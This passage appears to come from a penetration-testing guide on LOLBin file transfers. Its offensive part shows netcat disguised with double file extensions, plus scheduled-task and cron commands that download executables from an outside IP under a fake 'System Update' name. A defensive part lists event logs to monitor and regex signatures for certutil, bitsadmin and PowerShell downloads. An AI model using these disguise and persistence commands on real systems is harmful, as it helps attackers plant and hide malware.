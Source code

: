 ### Use Legitimate File Extensions

**Disguise Executables:**
```cmd
# Rename executable to appear as document
copy nc.exe important_document.pdf.exe

# Use double extension
copy nc.exe report.txt.exe
```

### Time-based Transfers

**Schedule Transfers:**
```cmd
# Windows - Use schtasks
schtasks /create /tn "System Update" /tr "certutil.exe -urlcache -split -f http://10.10.10.32:8000/update.exe" /sc daily /st 02:00

# Linux - Use cron
echo "0 2 * * * wget -q http://10.10.10.32:8000/update" | crontab -
```

## Defensive Considerations

### Monitoring LOLBins Usage

**Windows Event Logs:**
- Monitor Process Creation Events (Event ID 4688)
- Monitor PowerShell Script Block Logging (Event ID 4104)
- Monitor Network Connections (Event ID 3 - Sysmon)

**Linux Monitoring:**
- Monitor syscalls with auditd
- Use process monitoring tools (ps, top, htop)
- Monitor network connections (netstat, ss)

### Common Detection Signatures

**Suspicious Command Lines:**
```cmd
# Certutil with URL
certutil.*-urlcache.*-split.*-f.*http

# Bitsadmin with transfer
bitsadmin.*transfer.*http

# PowerShell with download
powershell.*downloadstring.*http
```

### Mitigation Strategies
